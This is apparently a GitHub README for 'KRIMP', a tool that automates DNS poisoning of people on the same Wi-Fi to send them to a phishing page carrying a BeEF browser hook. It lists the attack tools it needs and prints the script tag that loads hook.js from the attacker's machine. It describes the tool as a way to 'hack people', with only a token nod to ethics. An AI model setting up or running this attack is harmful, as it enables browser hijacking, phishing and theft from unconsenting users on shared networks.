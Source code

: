 # KRIMP
```
                               ▄█   ▄█▄    ▄████████  ▄█    ▄▄▄▄███▄▄▄▄      ▄███████▄ 
                               ███ ▄███▀   ███    ███ ███  ▄██▀▀▀███▀▀▀██▄   ███    ███ 
                               ███▐██▀     ███    ███ ███▌ ███   ███   ███   ███    ███ 
                              ▄█████▀     ▄███▄▄▄▄██▀ ███▌ ███   ███   ███   ███    ███ 
                             ▀▀█████▄    ▀▀███▀▀▀▀▀   ███▌ ███   ███   ███ ▀█████████▀  
                               ███▐██▄   ▀███████████ ███  ███   ███   ███   ███        
                               ███ ▀███▄   ███    ███ ███  ███   ███   ███   ███        
                               ███   ▀█▀   ███    ███ █▀    ▀█   ███   █▀   ▄████▀      
                               ▀           ███    ███                                   
  ```
  
Do you ever want to phish someone (ETHICALLY) and u cant seem to find a good url? Well I got you covered, this tool automates the process of DNS poisoning a target on your wifi to make them redirect to your page which is inected with beEf.
*This is in an alpha stage, more automation will come*

## Pre-requisites
1. You will need to have beEf installed
2. You will need to have bettercap installed
3. You will need to have gnome-terminal installed
4. You will need to have apache2 installed

You will also need an index.html file inside of your /var/www/html folder with a beef hook, add this to a html file to hook it with beef:
`<script src="http://<local ip>:3000/hook.js"></script>`

## Configurate the script
- Change the directories in the script to your installation of beEF and bettercap.

### Extra
At the moment, this tool is only used to hack people on your own wifi, more features will come over time, like over WAN.

